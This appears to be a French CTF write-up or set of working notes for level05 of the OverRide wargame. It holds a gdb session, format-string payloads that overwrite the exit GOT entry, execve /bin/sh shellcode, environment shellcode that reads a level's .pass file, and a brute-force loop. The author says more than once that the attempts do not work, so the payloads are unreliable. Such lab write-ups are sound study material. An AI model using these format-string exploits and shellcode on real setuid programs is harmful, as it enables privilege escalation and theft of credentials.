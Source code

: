 On cherche l'adresse d'argv[1] pour y ecrire le shellcode

```bash
level05@OverRide:~$ gdb -q level05 
Reading symbols from /home/users/level05/level05...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) run AAAAAAAAAAAAAAAA
Starting program: /home/users/level05/level05 AAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048449 in main ()
(gdb) x /200x $esp
    . . .
0xffffd8d0:	0x6c657665	0x41003530	0x41414141	0x41414141
0xffffd8e0:	0x41414141	0x00414141	0x4d524554	0x6574783d
    . . .
(gdb) x/s 0xffffd8e6
0xffffd8e6:	 "A"
```

argv[1] = 0xffffd8e6

exit :0x80497e0

octets poids faible : 0xd8e6 = 55526 - 8 = 55518
octets poids fort : 0xffff = 65535 - 55526 = 10009

```bash
python -c "print('\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%55518x' + '%10\$hn'+ '%10009x' + '%11\$hn')" | ./level05 $(python -c "print('\x90' * 100 + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80')")
```

FUCK IT WHY IT NO WORK

Back to env exploit

export exploit=$'\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass'

gcc -m32 get_env.c

exploit : 0xffffdec6

octets poids faible : 0xdec6 = 57030 - 8 = 57022
octets poids fort : 0xffff = 65535 - 57030 = 8505

```bash
python -c "print('\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%57022x' + '%10\$hn'+ '%8505x' + '%11\$hn')" | ./level05
```
marche pas non plus

Bruteforce

octets poids faible : 0x0000 = 0
octets poids fort : 0xffff = 65535 / 2 = 32767.5

```bash
for ((i = 65535, j = 0; i > 32767 && j <= 32767; i--, j++)); do python -c "print('\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%' + str('$i') + 'x' + '%10\$hn'+ '%' + str('$j') + 'x' + '%11\$hn')" | ./level05 $(python -c "print('\x90' * 100 + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80')"); echo $i $j; done
```
test jusqu'a j = 9500